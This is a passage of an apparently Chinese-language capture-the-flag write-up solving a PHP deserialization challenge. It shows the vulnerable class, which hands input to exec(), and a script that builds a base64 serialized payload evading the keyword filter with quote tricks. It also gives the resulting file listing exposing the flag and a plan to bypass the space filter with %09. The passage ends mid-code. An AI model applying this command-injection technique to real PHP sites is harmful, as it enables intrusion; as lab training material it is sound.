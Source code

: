 很普通的路径。看看这里有啥东西。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array("l''s"));
echo urlencode(base64_encode(serialize($a)));
?>
```

- ctf=Tzo0OiJlYXNlIjoyOntzOjEyOiIAZWFzZQBtZXRob2QiO3M6NDoicGluZyI7czoxMDoiAGVhc2UAYXJncyI7YToxOntpOjA7czo0OiJsJydzIjt9f
  > array(2) {[0]=>string(12) "flag_1s_here" [1]=>string(9) "index.php"}

看见flag了。用file看看是什么类型的文件，但是提示don't hack。检查才发现连空格也过滤了。尝试用%09+urldecode绕过。

```php
<?php
class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
```